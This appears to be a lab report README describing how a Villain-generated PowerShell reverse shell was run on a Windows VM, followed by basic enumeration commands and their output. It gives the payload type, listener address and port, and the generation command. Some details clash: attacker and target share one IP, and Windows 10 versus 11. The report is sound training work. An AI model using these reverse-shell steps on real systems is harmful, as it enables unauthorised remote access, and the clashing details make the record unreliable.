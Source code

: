 # 🐚 Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- **Payload:** `windows/reverse_tcp/powershell`
- **LHOST:** `192.168.56.101`
- **LPORT:** `65001`

## 🔁 Payload Delivery Method
The payload was generated in Villain using the command:
generate os=windows lhost=eth1

It was then copied and executed in PowerShell on the Windows 10 target VM (running on the same internal VirtualBox network as the Kali attacker VM).

## 🖥️ Captured Info
- **Hostname:** `ABHISHEKPC`
- **IP Address:** `192.168.56.101`
- **User:** `abhis`

## 📸 Screenshots
1. Villain access Screenshot
![](Screenshots/Screenshot1.png)
2. Payload generation in linux
![](Screenshots/Screenshot3.png)
3. Payload testing in windows
![](Screenshots/Screenshot4.png)
4. Executing Commands
![](Screenshots/Screenshot2.png)
![](Screenshots/Screenshot5.png)
![](Screenshots/Screenshot6.png)
![](Screenshots/Screenshot7.png)
![](Screenshots/Screenshot8.png)
![](Screenshots/Screenshot9.png)
![](Screenshots/Screenshot10.png)

## 🔎 Enumeration Performed
whoami
ipconfig
systeminfo

# Checking current user
whoami
# Output: abhis(ABHISHEK ANIL GEORGE)

# Checking network configuration
ipconfig
# Output: IPv4 Address. . . . . . . . . . . : 192.168.56.101

# Gathering system information
systeminfo
# Output: Hostname: ABHISHEKPC
# OS Name: Microsoft Windows 11 Home Single Language 
# OS Version: 10.0.26100 N/A Build 26100 
